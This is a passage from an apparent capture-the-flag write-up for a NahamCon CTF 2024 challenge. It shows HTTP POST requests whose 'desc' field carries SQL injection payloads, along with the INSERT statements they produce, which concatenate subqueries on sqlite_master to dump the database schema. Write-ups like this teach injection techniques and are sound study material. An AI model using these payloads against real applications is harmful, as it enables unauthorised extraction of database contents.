 ```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+1));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sql+FROM+sqlite_master+LIMIT+1+OFFSET+2));--+-
```

**Final executed SQL statements:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 0));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 1));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sql FROM sqlite_master LIMIT 1 OFFSET 2));-- -');
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527133449.png)
